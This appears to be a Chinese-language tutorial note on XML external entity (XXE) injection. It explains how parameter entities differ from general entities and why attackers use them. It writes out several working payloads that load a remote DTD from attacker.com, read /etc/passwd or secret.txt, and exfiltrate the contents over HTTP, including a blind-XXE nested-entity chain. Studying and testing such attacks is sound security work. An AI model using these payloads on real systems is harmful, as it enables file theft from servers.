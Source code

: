 # 参数实体和通用实体

在XXE（XML外部实体）注入攻击中，参数实体（Parameter Entities）和通用实体（General Entities）的主要区别在于**定义方式、作用域和解析阶段**。选择使用参数实体通常是为了绕过解析器的安全限制或实现更复杂的攻击链。以下是具体差异和应用场景：

### 定义方式与作用域

- 通用实体：

  - 定义语法：`<!ENTITY name "value">` 或引用外部资源 `<!ENTITY name SYSTEM "file:///etc/passwd">`。

  - 作用域：在XML文档的**内容部分**通过 `&name;` 引用，用于替换文本或资源。

  - 示例：

    ```
    <!ENTITY foo "Hello">
    <data>&foo;</data> <!-- 输出：Hello -->
    ```

- 参数实体：

  - 定义语法：`<!ENTITY % name "value">`（以 `%` 开头）。

  - 作用域：仅在**DTD（文档类型定义）内部**使用，通过 `%name;` 引用，通常用于构建DTD结构。

  - 示例：

    ```
    <!ENTITY % param "file:///etc/passwd">
    <!ENTITY exfil SYSTEM "%param;">
    ```

### 解析阶段的差异

- 通用实体：
  - 在XML文档**内容解析阶段**展开。
  - 若解析器禁用外部实体（如设置 `FEATURE_SECURE_PROCESSING`），通用实体可能被拦截。
- 参数实体：
  - 在**DTD解析阶段**展开，早于文档内容解析。
  - 即使解析器限制外部实体，参数实体可能绕过某些安全策略（尤其在外部DTD中）。

### 为何XXE攻击中需要参数实体

##### 场景1：参数实体加载外部 DTD

- 某些解析器（如PHP的`libxml`）默认禁用通用外部实体，但**允许参数实体引用外部DTD**。

- 攻击者可通过参数实体加载外部恶意DTD，实现攻击：

  ```
  <!-- 主XML文件 -->
  <!DOCTYPE data [
    <!ENTITY % remote SYSTEM "http://attacker.com/malicious.dtd">
    %remote;
  ]>
  <data>&exfil;</data>
  ```

  ```
  <!-- malicious.dtd -->
  <!ENTITY % payload SYSTEM "file:///etc/passwd">
  <!ENTITY exfil SYSTEM "http://attacker.com/?data=%payload;">
  ```

##### 场景2：参数实体在外部 DTD 嵌套进行盲 XXE

- 参数实体可构造嵌套实体，将数据通过DNS或HTTP请求外带：

  ```
  <!DOCTYPE data [
    <!ENTITY % file SYSTEM "file:///secret.txt">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
    %eval;
    %exfil;
  ]>
  ```

注：内部 DTD 不允许嵌套，外部 DTD 允许嵌套。

所以在盲 XXE 时，先制作一个利用参数实体嵌套的外部 DTD，然后再使用参数实体引入外部 DTD。

### 关键区别总结

| **攻击方式**                | 语法合法性 | 成功原因                      |
| :-------------------------- | :--------- | :---------------------------- |
| **内部DTD嵌套参数实体**     | ❌ 非法     | 内部DTD禁止动态生成实体声明   |
| **外部DTD嵌套参数实体**     | ✅ 合法     | 外部DTD允许嵌套声明和文件读取 |
| **内部DTD直接参数实体引用** | ✅ 合法     | 无嵌套声明，仅触发基础功能    |

### 根本原因

- XML解析器对**内部DTD子集**有严格限制，防止动态实体声明（安全风险）。
- **外部DTD**的解析规则更宽松，允许复杂的嵌套参数实体，因此能实现文件窃取。
- 带外检测（无嵌套）在内部/外部DTD中均有效，因为仅需发起网络请求。